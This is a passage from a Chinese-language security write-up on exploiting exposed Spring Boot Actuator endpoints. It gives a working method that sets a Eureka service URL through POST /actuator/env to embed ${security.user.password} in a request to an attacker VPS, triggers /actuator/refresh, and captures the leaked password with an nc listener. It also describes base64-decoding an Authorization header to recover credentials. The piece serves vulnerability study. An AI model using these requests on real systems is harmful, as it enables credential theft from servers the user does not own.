 Host:******  
```
Connection:Keep-Alive 
User-Agent:Apache-HttpClient/4.5.13(Java/1.8.0_191)
Accept-Encoding:gzip,deflate
```  
  
将Authorization字段进行base64解密后,得到的值就是value:password  
### 方法四（VPS）  
  
利用条件  
  
通过POST/env设置属性触发目标对外网指定地址发起任意http请求  
  
目标可以请求攻击者的服务器（请求可出外网）  
  
利用方法  
  
在目标发外部http请求的过程中，在urlpath中利用占位符带出数据。  
1. 首先访问http://127.0.0.1:8080/actuator/env来获取我们想要明文字段的key  
  
2. 在自己控制的外网服务器上监听80端口：nc-lvk80  
  
3. 构造如下数据包  
```
POST/actuator/env
Content-Type:application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/${security.user.password}"}
```  
  
4. 刷新配置  
```
POST/actuator/refresh 
Content-Type:application/json
```  
  
5. 查看VPS  
  
接下来VPS就会收到请求：  
```
Ncat:Connectionfrom****** 
GET/SecretKe/apps/HTTP/1.1 
Accept:application/json,application/*+json 
Host:****** 
Connection:Keep-Alive
User-Agent:Apache-HttpClient/4.5.13(Java/1.8.0_191)
Accept-Encoding:gzip,deflate
```  
  
apps前面的路径就是我们需要的数据。  
## 4.结语  
  
Spring Boot使开发更加简单和高效，因此也得到了广泛的应用，这也导致了漏洞影响面的扩大，Spring Boot漏洞可造成以下危害：  
  
1、未授权的访问者可以通过Actuator端点  
获取敏感信息，如数据库账户密码，代码及后台账号密码，攻击者可利用泄露信息进行进一步利用，并进行更深入的攻击。.  
  